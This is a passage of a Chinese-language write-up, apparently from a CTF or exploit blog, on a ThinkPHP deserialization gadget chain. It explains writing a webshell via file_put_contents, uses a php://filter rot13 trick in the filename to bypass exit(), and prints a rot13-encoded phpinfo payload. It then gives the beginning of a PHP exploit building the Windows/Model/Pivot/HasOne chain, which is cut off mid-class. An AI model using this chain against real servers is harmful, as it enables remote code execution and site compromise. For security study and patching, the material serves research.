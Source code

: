 ![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210418144434.png)

可以`file_put_contents`写shell，并且`$filename`在getCacheKey方法当中是可控的，伪协议绕一下exit就可以了

![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210418145126.png)

但是`$data`比较麻烦，他从传入的`$value`取值，`set`方法中的参数来自先前调用的`write`方法，`write`之前在writeln的时候就传入了true，不可控。偷一张图：

![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210418145636.png)

继续跟进后面的setTagItem方法，我们可以看到它再次调用了set方法:

![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210418145844.png)

且文件内容`$value`通过`$name`赋值(文件名)，所以我们可以在文件名上面下功夫，比如`php://filter/write=string.rot13/resource=./<?cuc cucvasb();?>`这种

exp，可以实现在Windows写文件（来自网络）：

```php
<?php
namespace think\process\pipes {
    class Windows {
        private $files = [];

        public function __construct($files)
        {
            $this->files = [$files]; //$file => /think/Model的子类new Pivot(); Model是抽象类
        }
    }
}

namespace think {
    abstract class Model{
        protected $append = [];
        protected $error = null;
        public $parent;

        function __construct($output, $modelRelation)
        {
            $this->parent = $output;  //$this->parent=> think\console\Output;
            $this->append = array("xxx"=>"getError");     //调用getError 返回this->error
            $this->error = $modelRelation;               // $this->error 要为 relation类的子类，并且也是OnetoOne类的子类==>>HasOne
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
        function __construct($output, $modelRelation)
        {
            parent::__construct($output, $modelRelation);
        }
    }
}

namespace think\model\relation{
    class HasOne extends OneToOne {

    }
}
namespace think\model\relation {
    abstract class OneToOne
```